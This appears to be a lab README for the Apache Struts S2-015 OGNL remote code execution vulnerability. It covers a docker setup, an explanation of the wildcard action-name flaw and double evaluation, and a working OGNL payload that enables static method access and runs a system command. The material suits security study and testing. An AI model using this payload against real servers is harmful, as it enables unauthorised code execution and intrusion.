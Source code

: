 # S2-015 Remote Code Execution Vulnerablity

[中文版本(Chinese version)](README.zh-cn.md)

Affected Version: 2.0.0 - 2.3.14.2

Details: http://struts.apache.org/docs/s2-015.html

## Setup

```
docker-compose build
docker-compose up -d
```

## Reference

Struts 2 allows define action mapping base on wildcards, like in example below:

```xml
<package name="S2-015" extends="struts-default">
    <action name="*" class="com.demo.action.PageAction">
        <result>/{1}.jsp</result>
    </action>
</package>
```

If a request doesn't match any other defined action, it will be matched by * and requested action name will be used to load JSP file base on the name of action. And as value of {1} is threaten as an OGNL expression, thus allow to execute arbitrary Java code on server side. This vulnerability is combination of two problems:

1. requested action name isn't escaped or checked agains whitelist
2. double evaluation of an OGNL expression in TextParseUtil.translateVariables when combination of $ and % open chars is used.

## Expliot

Payload as follows：

```
${#context['xwork.MethodAccessor.denyMethodExecution']=false,#m=#_memberAccess.getClass().getDeclaredField('allowStaticMethodAccess'),#m.setAccessible(true),#m.set(#_memberAccess,true),#q=@org.apache.commons.io.IOUtils@toString(@java.lang.Runtime@getRuntime().exec('id').getInputStream()),#q}
```

Result:

![](01.png)

In addition to the above situation, S2-015 has another case of code execution:

```xml
<action name="param" class="com.demo.action.ParamAction">
    <result name="success" type="httpheader">
        <param name="error">305</param>
        <param name="headers.fxxk">${message}</param>
    </result>
</action>
```

Result:

![](02.png)
